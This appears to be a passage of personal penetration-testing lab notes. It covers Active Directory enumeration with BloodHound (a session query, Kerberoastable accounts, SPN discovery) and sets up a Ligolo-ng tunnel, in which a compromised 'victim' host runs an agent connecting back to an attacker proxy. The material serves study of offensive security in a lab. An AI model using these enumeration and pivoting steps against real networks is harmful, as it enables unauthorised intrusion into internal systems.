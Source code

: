 ##### Services and Sessions

Further enumerate the target network to identify potential attack vectors
1. Review all active user sessions on machines
2. Examine user accounts for the existence of SPNs.
3. Leverage tools such as Nmap and CrackMapExec/ NetExec via a SOCKS52 proxy to identify accessible services.


- Build a relationship query
```console
MATCH p = (c:Computer)-[s:HasSession]->(m:User) RETURN p
```
	- Shows any users and the computers they have sessions on

Three active sessions are shown:
- Marcus (us) -> CLIENTWK1
- Beccy -> MAILSRV1
	-  If we manage to get privileged access to this machine, we can potentially extract the NTLM hash for this user.
- SID -> INTERNALSRV1
	- BloodHound uses this representation of a principal when the domain identifier of the SID is from a local machine.
	  For this session, this means that the local _Administrator_ (indicated by RID 500) has an active session on INTERNALSRV1.

##### Kerberoastables

List all Kerberoastable accounts:
- Daniela
- krbtgt
	- Because its pw is randomly generated, it's generally unfeasible to successfully craft a pw attack.

##### SPNs

With Daniela selected, we can scroll through the node's info for any SPNs
- http/internalsrv1.beyond.com

Based on the `http`, we can assume there's a web server running on this endpoint.

> Again, even though we have a potential vector for attack, we should still enumerated and collect all info prior to attacking.


In order to enumerate the internal network, we'll need to set up a SOCKS proxy OR ligolo

#### Ligolo-ng Tunneling

- On Kali - Setup Ligolo proxy
```bash
sudo .\proxy -selfcert -laddr 192.168.45.170:443
```

- On Vic - Connect
```powershell
.\agent.exe -connect 192.168.45.170:443 -ignore-cert
```
